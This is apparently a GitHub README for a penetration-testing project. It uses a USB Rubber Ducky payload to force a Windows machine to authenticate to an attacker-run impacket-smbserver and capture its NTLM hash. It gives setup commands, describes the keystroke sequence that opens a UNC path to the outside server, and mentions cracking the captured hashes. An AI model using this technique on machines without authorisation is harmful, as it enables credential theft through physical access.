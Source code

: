 # Password Hash Grabber (Windows)

This project utilizes a USB Rubber Ducky to capture Windows password hashes in less than two seconds, demonstrating a powerful method for assessing policy compliance and information security awareness. By executing a simple DuckyScript payload, it initiates a CIFS/SMB connection to a targeted listening server to obtain user hash information. This technique is effective across almost all versions of Microsoft Windows and requires minimal privileges, making it a valuable tool for penetration testers and internal red teams.

The critical component of this attack is impacket-smbserver from the Impacket suite, an open-source tool designed for such operations. The server needs to be set up on the target network to capture the NTLM hash, timestamp, workstation ID, and user details as Windows attempts to authenticate with the CIFS share.

## Disclaimer

The tools and scripts provided in this repository are made available for educational purposes only and are intended to be used for testing and protecting systems with the consent of the owners. The author does not take any responsibility for the misuse of these tools. It is the end user's responsibility to obey all applicable local, state, national, and international laws. The developers assume no liability and are not responsible for any misuse or damage caused by this program. Under no circumstances should this tool be used for malicious purposes. The author of this tool advocates for the responsible and ethical use of security tools. Please use this tool responsibly and ethically, ensuring that you have proper authorization before engaging any system with the techniques demonstrated by this project.

## Acknowledgments

This project is based on [usbrubberducky-payloads](https://github.com/hak5/usbrubberducky-payloads) by [Darren Kitchen](https://github.com/hak5darren). We thank them for their work and contributions to the community.

## Features

This DuckyScript is designed for rapid exfiltration of Windows password hashes by exploiting the SMB (Server Message Block) protocol. When executed, it forces a Windows machine to attempt an SMB connection to a predefined server, triggering an automatic hash exchange process part of the SMB protocol's authentication mechanism.

## Prerequisites

- **Operating System**: Tested on Windows 10 x64, version 22H2, Kali Linux 2023.4, Ubuntu 22.04.4 LTS.
- **Payload Studio**: Tested with Payload Studio Pro version 1.3.1
- **DuckyScript Version**: DuckScript 3.0 Advanced
- **Hardware**: USB Rubber Ducky (2022)

## Usage

### **Step 1: Prepare the impacket-smbserver Environment (Kali Linux)**

1. **Set Up impacket-smbserver**:
    - Verify installation by running one of the Impacket tools or check the installed version: `impacket-smbserver --version`
    - Choose a directory where you want the SMB server to store captured hashes (e.g., `/tmp/`).
    - Run an SMB server using `impacket-smbserver`, by specifying a share name and a path to the folder you want to share, for example: `sudo impacket-smbserver TMP /tmp/`
        
        ```bash
        sudo impacket-smbserver <SHARE_NAME> <PATH_TO_FOLDER>
        ```
        
    - On the Windows target machine, you can access the share by navigating to `\\[KALI_IP_ADDRESS]\TMP` in the File Explorer, where `[KALI_IP_ADDRESS]` is the IP address of your Kali VM.

### **Step 1: Prepare the impacket-smbserver Environment (Ubuntu)**

1. **Install pipx:**
    - Ensure Python3 and pip are installed first.
    - Install `pipx` using pip:
        
        ```bash
        python3 -m pip install --user pipx
        python3 -m pipx ensurepath
        ```
        
2. **Install Impacket**: 
    - With `pipx` installed, you can now proceed to install Impacket. To install the latest stable release of Impacket, run: `python3 -m pipx install impacket`
        - This command will download and install Impacket and its dependencies in an isolated environment while making the Impacket tools available system-wide.
    - Verify installation by running one of the Impacket tools or check the installed version: `impacket-smbserver --version`
3. **Set Up smbserver.py**:
    - Choose a directory where you want the SMB server to store captured hashes (e.g., `/tmp/` on Linux).
    - Run an SMB server using `impacket-smbserver`, by specifying a share name and a path to the folder you want to share, for example: `sudo impacket-smbserver TMP /var/`
        
        ```bash
        sudo impacket-smbserver <SHARE_NAME> <PATH_TO_FOLDER>
        ```
        
    - On the Windows target machine, you can access the share by navigating to `\\[KALI_IP_ADDRESS]\TMP` in the File Explorer, where `[KALI_IP_ADDRESS]` is the IP address of your Kali VM.

### Step 2: **Create the DuckyScript Payload**

- **Write the Payload**: Ensure you replace `example.com` with the actual hostname or IP address of the server running  ****`impacket-smbserver`.

### **Step 3: Deploy the Payload**

- **Load and Execute**: Load the DuckyScript payload onto your USB Rubber Ducky, plug it into the target Windows machine, and let it execute the script. The script quickly opens a Run dialog, attempts to connect to the specified CIFS share, and in the process, sends the NTLM hash to the smbserver.

### Step 4: Capture and Utilize the Hash

- **Monitor impacket-smbserver Output**: The smbserver will output the captured hash information, including the timestamp, workstation ID, user, and NTLM hash. This information can be used for further analysis or cracking attempts.

## How It Works

- **Host Setup**: Before deployment, you must set up an SMB server using Impacket's `impacket-smbserver`. This server will listen for incoming SMB connections and capture NTLM hashes passed during the authentication attempt.
- **Script Execution**: Upon plugging in the USB Rubber Ducky, the script waits for 1 second (`DELAY 1000`) to ensure the system recognizes the device. It then simulates the key combination `GUI r` to open the Run dialog.
- **Connection Initiation**: The script types `\\[HOSTNAME]\[SHARE_NAME]` and hits Enter, where `[HOSTNAME]` is the address of your SMB server and `[SHARE_NAME]` the SMB share name. This action attempts to initiate an SMB connection to the specified server.
- **Hash Capture**: As Windows tries to authenticate with the SMB server, the user's NTLM hash, username, and workstation ID are transmitted. The Impacket `impacket-smbserver` captures this information.
- **Rapid Execution**: This entire process is designed to execute in less than two seconds, showcasing the speed and stealthiness of the attack. It highlights the potential risk and impact of physical access vulnerabilities.

## Output Example

![DuckyScript Payload Results](/images/impacket_smb_results.png)

## Contributing

If you have an idea for an improvement or if you're interested in collaborating, you are welcome to contribute. Please feel free to open an issue or submit a pull request.

## License
This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.
